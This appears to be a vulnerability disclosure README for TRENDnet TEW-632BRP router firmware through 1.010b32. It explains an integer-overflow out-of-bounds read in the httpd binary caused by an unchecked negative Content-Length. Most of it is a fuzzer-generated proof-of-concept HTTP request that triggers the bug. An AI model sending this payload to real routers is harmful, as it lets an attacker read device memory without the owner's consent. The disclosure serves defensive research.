# TEW-632BRP
## Firmware version
TEW-632BRP devices through 1.010b32
## description
TRENDnet TEW-632BRP devices through 1.010b32 contain a read oob caused by integer overflow in the httpd binary. The oob allows an authenticated user to read arbitrary lengths of memory.
## detail
the bug in fucntion httpd_main, binary fs/sbin/httpd at address 0x4078cc witch read the "Content-Length" field from the message without check if it is negative.
The parameter read at address 0x4078cc throuth calling strtoul, it is then passed to get_pure_content as the fourth parameter. get_pure_content calls the safe_read in a do while loop but without check if the length to read is negative entering the loop. 
![image_text](neagtive_length2.png)
![image_text](neagtive_length.png)
## Send package
```txt
<OST c0
\FF8
U
\FF\85\EC
Co\A7tent-LengthennnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnhnnnnnnnnnnnnnPOST /apcTX bytes:
SOAPACTION:HNAP1z
Content-Length: -3

nnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnzywzywzywzywzywzywzywzywzywzywzywzywzywzunnnnnnnnnnn}nnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnn\91nnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnn]nnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnn\91nnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnn]nnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnST /+url_nnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnngth2
@\00ntent-Length:0
SOgs/
Contenturl_domain_filterngtnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnngth2
@\00ntent-Length:0
SOgs/
Contenturl_domain_filterngth: \97ip_19-Le_trdst_z/
Content-L\00\00\80gOB@ 
```
